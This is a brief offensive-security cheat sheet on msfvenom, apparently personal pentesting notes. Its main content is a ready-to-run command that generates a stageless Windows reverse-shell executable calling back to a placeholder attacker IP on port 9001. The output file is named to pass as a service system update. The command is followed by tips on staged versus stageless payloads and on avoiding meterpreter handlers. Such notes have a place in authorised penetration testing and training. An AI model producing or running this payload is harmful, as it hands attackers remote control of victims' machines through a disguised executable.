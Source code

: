# msfvenom

> Windows reverse shell; defaults to x86 ie 32bit
```
msfvenom -p windows/shell_reverse_tcp lhost=<MY_IP> lport=9001 -f exe > Service_system_update.exe
```
avoid the meterpreter payloads, they require metasploit handler to catch them
note the _ sererating the terms; this indicates STAGELESS payloads ie, no metasploit needed to catch
